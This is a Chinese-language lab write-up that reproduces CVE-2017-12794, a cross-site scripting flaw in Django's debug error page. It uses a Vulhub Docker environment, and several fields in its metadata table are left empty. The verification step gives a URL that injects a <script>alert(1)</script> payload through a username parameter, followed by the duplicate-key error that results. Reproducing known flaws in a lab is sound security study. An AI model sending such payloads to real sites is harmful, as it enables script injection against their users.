




# Django_debug page_XSS漏洞(CVE-2017-12794)漏洞复现

| 说明     | 内容                      |
| -------- | ------------------------- |
| 漏洞编号 | CVE-2017-12794            |
| 漏洞名称 | Django_debug page_XSS漏洞 |
| 漏洞评级 |                           |
| 影响范围 | 1.11.5版本                |
| 漏洞描述 |                           |
| 修复方案 |                           |


### 1.1、漏洞描述

1.11.5版本，修复了500页面中存在的一个XSS漏洞

### 1.2、漏洞等级

### 1.3、影响版本

Django 1.11.5版本

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/django/CVE-2017-12794

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:8000/`即可看到



#### 2、漏洞分析

[vulhub](https://vulhub.org/#/environments/django/CVE-2017-12794/)


#### 3、漏洞验证

```
http://192.168.8.8:8000/create_user/?username=%3Cscript%3Ealert(1)%3C/script%3E
```

用户已经被 创建



再次刷新页面触发XSS



抛出异常



```python
duplicate key value violates unique constraint "xss_user_username_key"
DETAIL:  Key (username)=(<script>alert(1)</script>) already exists.
```


